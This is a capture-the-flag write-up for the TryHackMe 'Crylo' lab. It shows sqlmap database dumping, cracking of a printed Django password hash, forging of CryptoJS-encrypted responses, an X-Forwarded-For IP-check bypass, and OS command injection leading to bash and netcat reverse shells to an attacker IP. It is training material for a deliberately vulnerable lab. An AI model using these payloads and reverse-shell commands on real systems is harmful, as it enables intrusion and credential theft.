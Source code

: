 # Crylo

A writeup for the room [Crylo](https://tryhackme.com/room/crylo4a) on TryHackMe.

> Learn about the CryptoJS library and JavaScript-based client-side encryption and decryption.

<Image src={require("./logo.webp").default} height="256" />

## Task 1 - Enumeration

> How many ports are open?

Start the machine and scan the ports with nmap.

```bash
nmap -sS -p- -v [IP]
```

<Image src={require("./nmap.webp").default} />

> What is the 403/forbidden web page?

Open the web page in the browser and check the source code.

Other pages return a 404 error.

<Image src={require("./homepage.webp").default} />

Nothing seems to be interesting, so we can try to enumerate the website with gobuster.

It is important to set the `-s` flag to search for at least the 403 status code.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,css,js -q -s "200,403" -u [URL]
```

<Image src={require("./gobuster.webp").default} />

## Task 2 - Injection

> What is the name of the first username?

It is a common name for the default user of a web application.

> What is the password for the above user?

We can try to login with common credentials, but nothing tried works.

<Image src={require("./login.webp").default} />

Looking to the response we can see that the final text cannot be parsed directly.

However, the client understands it perfectly and shows the result.

It is possible to look to the code to find how it works.

<Image src={require("./code-login.webp").default} />

The client decrypts the response using the CryptoJS library.

The response is encrypted using the AES algorithm with the CBC mode and a hardcode string as key and IV.

Using Cyberchef it is possible to convert the response and see its content.

<Image src={require("./decrypt-response.webp").default} />

Now that the request is known, we can try sqlmap to see if it is vulnerable to SQL injection.

The easy way to manage the request is to save it in a file and use the `-r` flag.

Using the standard risk level is not enough, add `--risk=3 --level=3` to increase it and find a vulnerability.

```bash
# Enumerate databases
sqlmap -r request --risk=3 --level=3 --dbs

# Enumerate tables in food database
sqlmap -r request --risk=3 --level=3 --tables -D food

# Dump auth data to get the hash of the admin password
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food --data "username=admin" -C password
```

Follow the default answer for all questions except:

```
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
```

We can obtain a hash of the admin password that be cracked with a tool like hashcat.

Analyzing the hash with hashid we can find the hash type is Django (PBKDF2-SHA256).

```bash
# Save hash in a file
echo "pbkdf2_sha256$260000$HxnWVrw647R53GeEUksjW5$SggM3ZAh86qRZtnn0VbWOSmHWhckfVvIsMG+jTZstpE=" > hash.txt

# Get hash type for hashcat
hashid -m hash.txt

# Crack the hash with mode 10000 (Django (PBKDF2-SHA256))
hashcat -m 10000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<Image src={require("./hashcat.webp").default} />

## Task 3 - Encryption

> Which library is used for encryption and decryption?

Look in `/static/js/validation.js` to find the answer.

The library can be easily recognized by the capitalized name of the variable.

<Image src={require("./encryption.webp").default} />

> Which JSON parameter was used to validate the pin?

Look in `/static/js/validation.js` to find the answer.

There is a specific if statement for the pin parameter.

<Image src={require("./pin-set.webp").default} />

> Which encryption method is used?

Look in `/static/js/validation.js` to find the answer.

At the beginning of the file there is a comment that says that the encryption method is AES.

## Task 4 - Forbidden Bypass

> What extra header can be used to bypass the page?

Firstly, bypass the login changing the value of `pin_set` to `false`.

```
{"pin_set": "true", "email": "admin@admin.com", "success": "true"}
iL6SVLGiiyY47lh6kX353MqD9I+mcSncHWhuJl6Dg7umFTYotHmMKiPaluJ8J35LebkAv3FSyusGIO8rxwJztzwHX9Ot64ltTlbzi/spfQ4=

{"pin_set": "false", "email": "admin@admin.com", "success": "true"}
HS0kn8CQhTz7NwgLMw9tP1mWXHssgMd2MRJ9EeChrTiPlSg9HGgxyshgHbMYjhFnVbpEi5lm1bRMbgbdebHsfVsN+90GzIuDMX+SBBI9wdY=
```

> What extra header can be used to bypass the page?

Use the `X-Forwarded-For` header to bypass the IP check.

It can be easily added using Burp Suite.

Be careful to always add the header before sending any request.

```
X-Forwarded-For: 127.0.0.1
```

Once the header is added, you will see a simple input text and a submit button.

Send a request and move it to the repeater to simplify the work.

We can check for remote code execution using the following payload.

```bash
22 && sleep 10
```

We can see that the command is executed, so we can try to get a reverse shell.

```bash
ifconfig
nc -nlvp 1337
22 && bash -i >& /dev/tcp/[IP]/1337 0>&1
22 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.114 1337 >/tmp/f
```

## Task 5 - Exploitation

> What is the name of the vulnerability used to gain system access?

The vulnerability that we exploited is based on the debug form.

We can send OS commands to be executed on the target server.

[https://portswigger.net/kb/issues/00100100_os-command-injection](https://portswigger.net/kb/issues/00100100_os-command-injection)

> What is the current system’s username?

Once you obtain a reverse shell is enough to run `whoami` to get the answer.

```bash
whoami
```

> What is the user flag?

Go to the home directory of the user to find the flag.

```bash
cd
cat user.txt
```

> Which user is part of the sudo group?

It is enough to check the sudo group to find the answer.

```bash
getent group sudo
```

> What is the password for the above user?

> What is the root flag?
